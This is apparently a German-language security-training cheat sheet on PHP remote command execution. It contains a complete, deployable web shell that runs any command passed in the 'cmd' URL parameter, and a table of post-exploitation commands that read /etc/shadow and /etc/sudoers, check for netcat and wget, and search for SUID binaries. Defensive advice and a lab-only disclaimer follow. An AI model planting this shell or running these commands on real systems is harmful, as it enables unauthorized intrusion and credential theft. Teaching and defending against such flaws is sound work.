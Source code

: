 # 🐘 phpRCE Cheat Sheet




## Inhaltsverzeichnis
- [Einleitung: Remote Command Execution in PHP](#einleitung-remote-command-execution-in-php)
- [Beispiel: Verwundbarer PHP-Code](#beispiel-verwundbarer-php-code)
- [Sicherheitsanalyse](#sicherheitsanalyse)
- [Typische Post-Exploitation-Befehle](#typische-post-exploitation-befehle)
- [Anwendungsszenarien (für Lab- oder CTF-Zwecke)](#anwendungsszenarien-für-lab--oder-ctf-zwecke)
- [Verteidigung (Blue Team)](#verteidigung-blue-team)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Einleitung: Remote Command Execution in PHP

Diese Datei beschreibt ein typisches Beispiel für **Remote Command Execution (RCE)** durch eine unsichere PHP-Webanwendung.  
Der Code ermöglicht es Angreifern, über einen GET-Parameter (`?cmd=`) beliebige Shell-Befehle auf dem Zielsystem auszuführen – **ein schwerwiegender Sicherheitsfehler**.




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Beispiel: Verwundbarer PHP-Code

```php
<?php
  if( empty( $_GET["cmd"] ) ){
    echo "Useful things:\n";
    echo "  uname -a\n";
    echo "  id\n";
    echo "  cat /etc/passwd\n";
    echo "  cat /etc/shadow\n";
    echo "  cat /etc/group\n";
    echo "  cat /etc/group | grep admin\n";
    echo "  cat /etc/sudoers\n";
    echo "  ls -la /home\n";
    echo "  ls -la /root\n";
    echo "  ls -la /var/www\n";
    echo "  which nc\n";
    echo "  which wget\n";
    echo "  find / -type f -perm -4000\n";
  }
  echo "<pre>";
  exec( $_GET["cmd"], $out );
  echo htmlentities( join( "\n", $out ) );
  echo "</pre>";
?>
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Sicherheitsanalyse

### ❌ Problem:

Die Funktion `exec($_GET["cmd"])` erlaubt die ungefilterte Ausführung von Systembefehlen, die über die URL übergeben werden.

→ Beispiel:
`http`
```http://target.local/rce.php?cmd=whoami```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 🛠️ Besser wäre:

- Verwendung vorbereiteter Kommandos ohne Benutzereingaben.
- Whitelisting erlaubter Befehle.
- Nutzung von `escapeshellcmd()` und `escapeshellarg()` (nur bedingt sicher).
- Oder: Verzicht auf Shell-Zugriffe aus Webanwendungen.




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Typische Post-Exploitation-Befehle

| Befehl                       | Beschreibung                                          |                                   |
| ---------------------------- | ----------------------------------------------------- | --------------------------------- |
| `uname -a`                   | Kernel & OS-Details                                   |                                   |
| `id`                         | Aktueller Benutzer & Gruppen                          |                                   |
| `cat /etc/passwd`            | Benutzerliste                                         |                                   |
| `cat /etc/shadow`            | Passwort-Hashes (nur als root lesbar)                 |                                   |
| `cat /etc/group`             | Gruppenliste                                          |                                   |
| `cat /etc/group`             | grep admin                                            | Prüfen, wer in "admin"-Gruppe ist |
| `cat /etc/sudoers`           | Wer hat Root-Rechte über sudo                         |                                   |
| `ls -la /home`               | Benutzerverzeichnisse prüfen                          |                                   |
| `ls -la /root`               | Root-Verzeichnis prüfen (meist geschützt)             |                                   |
| `ls -la /var/www`            | Webverzeichnis analysieren                            |                                   |
| `which nc`                   | Ist Netcat vorhanden?                                 |                                   |
| `which wget`                 | Ist wget verfügbar für Datei-Downloads?               |                                   |
| `find / -type f -perm -4000` | Alle SUID-Binaries finden (root privilege escalation) |                                   |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Anwendungsszenarien (für Lab- oder CTF-Zwecke)

- 🧪 Testen von Webshells in Laborumgebungen
- 🔍 Auffinden & Ausnutzen von RCE-Schwachstellen
- 🔐 Erkennen typischer Privilege Escalation-Pfade
- 🛠️ Automatisierung mit curl, Burp oder Exploitskripten

 


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Verteidigung (Blue Team)

- Verwende niemals Benutzereingaben direkt in `exec()`, `system()`, `passthru()` etc.
- Setze Application Firewalls ein (z. B. ModSecurity).
- Nutze sichere Webframeworks mit Sandboxing.
- Begrenze Rechte des Webservers (z. B. www-data darf nicht root sein).
- Erkenne Anomalien per Logüberwachung (z. B. suspicious cmd= Requests).




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Siehe auch

- [sql_injection_to_shell.md](/03-web-security/angriffe/sql-injektionen/sql_injection_to_shell.md)
- [break_and_fix_query.md](/03-web-security/angriffe/sql-injektionen/break_and_fix_query.md)
- [union_based_attack.md](/03-web-security/angriffe/sql-injektionen/union_based_attack.md)
- [post_exploitation_tools.md](/04-host-security/post_exploitation_tools.md)




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---